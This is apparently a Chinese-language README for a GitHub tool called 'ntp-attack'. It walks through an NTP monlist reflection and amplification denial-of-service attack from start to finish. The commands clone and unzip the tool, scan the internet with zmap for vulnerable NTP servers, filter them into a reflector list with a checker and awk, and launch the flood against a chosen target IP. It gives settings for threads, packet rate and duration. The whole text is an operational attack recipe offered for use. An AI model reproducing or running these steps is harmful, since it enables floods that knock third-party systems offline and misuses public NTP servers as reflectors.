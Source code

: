 # ntp-attack

请先安装 zmap unzip git

克隆并解压
`
git clone https://github.com/Scholar-m/ntp-attack && cd ntp-attack && unzip ntp.zip
`

扫描列表
`
zmap -p 123 -M udp --probe-args=file:ntp_123_monlist.pkt -o 1.txt
`


提权
`
chmod 777 ntp &&
chmod 777 ntpchecker
`

检查列表
`
./ntpchecker 1.txt 2.txt 1 0 1
`

过滤
`
awk '$2>419{print $1}' 2.txt | sort -n | uniq | sort -R > ntplist.txt
`

执行可执行文件
`
./ntp <target IP> <port> <reflection file> <threads> <pps limiter, -1 for no limit> <time>
`
